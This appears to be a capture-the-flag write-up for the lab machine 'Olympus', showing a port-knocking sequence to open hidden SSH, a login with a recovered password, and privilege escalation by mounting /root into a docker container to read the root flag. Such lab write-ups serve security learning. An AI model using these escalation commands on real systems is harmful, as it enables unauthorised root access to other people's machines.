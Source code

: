 
Basicly the **port 22** is opened but **hidden**. We can't access directly. But if we knock specific ports in a particular order, **knockd** service catch that **sequence** and allow us to connect.<br>
Doen't matter if that ports closed or not.

## Stage three
```
apt install knockd
```
```
root@89e502fff05a:~# knock ctfolympus.htb 3456 8234 62431 && ssh prometheus@ctfolympus.htb
prometheus@ctfolympus.htb's password: St34l_th3_F1re!
```
![img]({{ site.baseurl }}/assets/images/olympus/lZTNC0tYSK7ShGy1981NB.png)

In the **home** folder of **prometheus** there is a message from gods.<br>
That message I think useless.

![img]({{ site.baseurl }}/assets/images/olympus/ARjmzMZfYnuK02Dy8SxiO.png)

I'm in **docker** users group. Thats important.<br>
Lets have a look at **docker images** and **containers.**

![img]({{ site.baseurl }}/assets/images/olympus/XCy8la6s2XDnJ8aM1BzKv.png)

## Getting root
I want root flag, right ?<br>
Docker allow us to share our data between our machine and docker containers. So all I need to do is bind the **/root** partition and I can read what I want..

```
docker run --rm -it -v /root:/pwned olympia /bin/bash
```
It will create new container and execute the **/bin/bash** for us.
**--rm** flag means delete the container when we exit.

![img]({{ site.baseurl }}/assets/images/olympus/UWGSsYw47VtnweuMEwSbN.png)

Or we could use like this for just grab the flag..
```
docker run --rm -it -v /root:/pwned olympia /bin/bash -c "/bin/cat /pwned/root.txt"
```
![img]({{ site.baseurl }}/assets/images/olympus/zf4jhAcZOJ1RJuLXF7Tzg.png)

Almost forgot, I wanna show you guys how **knockd** daemon configured on this machine.
Check this.

![img]({{ site.baseurl }}/assets/images/olympus/Fb6i6t2YgwO5ztA7tHDEj.png)

![gif](https://media.giphy.com/media/RPwrO4b46mOdy/giphy.gif)

Thats it for **Olympus.** I learned a few things from this machine. <br>
If you have a question or something you can leave a comment.<br>
See you guys later.
